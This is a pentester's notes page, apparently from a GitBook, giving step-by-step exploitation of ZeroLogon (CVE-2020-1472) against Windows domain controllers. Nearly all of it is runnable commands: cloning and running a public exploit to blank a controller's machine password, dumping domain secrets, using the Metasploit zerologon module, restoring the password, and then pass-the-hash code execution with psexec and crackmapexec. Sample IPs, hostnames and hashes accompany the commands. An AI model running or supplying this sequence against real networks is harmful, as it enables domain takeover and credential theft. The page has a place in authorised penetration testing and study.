 # ZeroLogon

{% embed url="https://github.com/VoidSec/CVE-2020-1472" %}

a full white paper on this vuln:

{% embed url="https://www.secura.com/blog/zero-logon" %}

## <mark style="color:red;">Exploitation</mark>

```
pipenv shell
git clone https://github.com/SecureAuthCorp/impacket
cd impacket
python setup.py install
pip install .
cd ~
git clone https://github.com/VoidSec/CVE-2020-1472
cd CVE-2020-1472
pip install -r requirements.txt
./cve-2020-1472-exploit.py -n domain-controller -t 192.168.56.208
```

Running the script should results in Domain Controller's account password being reset to an empty string.

![](<../../../.gitbook/assets/image (136).png>)

test to see if the password was reseted:

```
impacket-secretsdump  -no-pass -just-dc MEGACORP.local/Lord_of_Domains\$@192.168.56.118
```

![](<../../../.gitbook/assets/image (46).png>)

## <mark style="color:red;">Metasploit Module</mark>

{% hint style="info" %}
The `auxiliary/gather/windows_secrets_du p` module can be used to recover the original machine account password which can then be restored with this module by using the `RESTORE` action and setting the `PASSWORD` value.
{% endhint %}

### <mark style="color:orange;">Verification Steps</mark>

1. Exploit the vulnerability to remove the machine account password by replacing it with an empty string:
2. Recover the original machine account password
3. Restore the original machine account password

**NBNAME :** The NetBIOS name of the target domain controller. You can use the `auxiliary/scanner/netbios/nbname` module to obtain this value. If this value is invalid the module will fail when making a Netlogon RPC request.

**PASSWORD** : The hex value of the original machine account password. This value is typically recovered from the target system's registry (such as by using the `auxiliary/gather/windows_secrets_dump` Metasploit module) after successfully setting the value to an empty string within Active Directory using this module and the default `REMOVE` action.

This value is only used when running the module with the `RESTORE` action.

```
use auxiliary/admin/dcerpc/cve_2020_1472_zerologon 
set RHOSTS 192.168.159.53
set NBNAME WIN-GD5KVDKUNIP
run

# output:
[+] 192.168.159.53:6403 - Successfully set the machine account (WIN-GD5KVDKUNIP$) password to: aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 (empty)
[*] Auxiliary module execution completed
```

At this point the `exploit/windows/smb/psexec` module can be used to achieve code execution if desired. Set the `SMBUser` option to the machine account and the `SMBPass` option to the empty password value.

### <mark style="color:orange;">Recover Password</mark>

Next, recover the original machine account password value using `auxiliary/gather/windows_secrets_dump`. Look for the `plain_password_hex` value in the `$MACHINE.ACC` section.

```
use auxiliary/gather/windows_secrets_dump
set RHOSTS 192.168.159.53
set SMBUser WIN-GD5KVDKUNIP$
set SMBPass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
run
```

Finally, restore the original value using this module.

```
use auxiliary/admin/dcerpc/cve_2020_1472_zerologon
set ACTION RESTORE
set PASSWORD 4151e8f8490762bc47ec11855921aef606f9d37176aef0f43a3fc6dc4aefc4c0d7bb7b88ad635a11f94de37e0d82495bab1dec25ac9d547910f94332f4598de372c07635fba1f6592bd3bb5aeb827cb088b1cae8db872b59e267ccfef1df40580c8d918befb3c39d809a6c89767a466f88f40eb373f86cf20c9b6a07e89b596e14a44eae6a4ae55b92a481b71452a3bbab2d5735d70868b778541f3c6e4d1c8c097c086bc40d364c01d4520b8a86a217ac79b4e826b9dc2eedd0a834146e3f6fba7422960dbd4051f499be61eca4e1aeba786030acfdd21e9f5a98a35a3f0430cf0b536bff99163118a1c75ec852cc2d
run
```

## <mark style="color:red;">PSEXEC</mark>

{% hint style="info" %}
The hash is from `secretsdump` output.
{% endhint %}

```
impacket-psexec -no-pass -hashes aad3b435b51404eeaad3b435b51404ee:812d42b0faa0200aa3361267f518c3c5  domain.local/Administrator@192.168.120.247
```

## <mark style="color:red;">crackmapexec</mark>

{% hint style="info" %}
The hash is from `secretsdump` output.
{% endhint %}

```
crackmapexec smb 192.168.120.247 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:812d42b0faa0200aa3361267f518c3c5  -d domain.local -x whoami
```

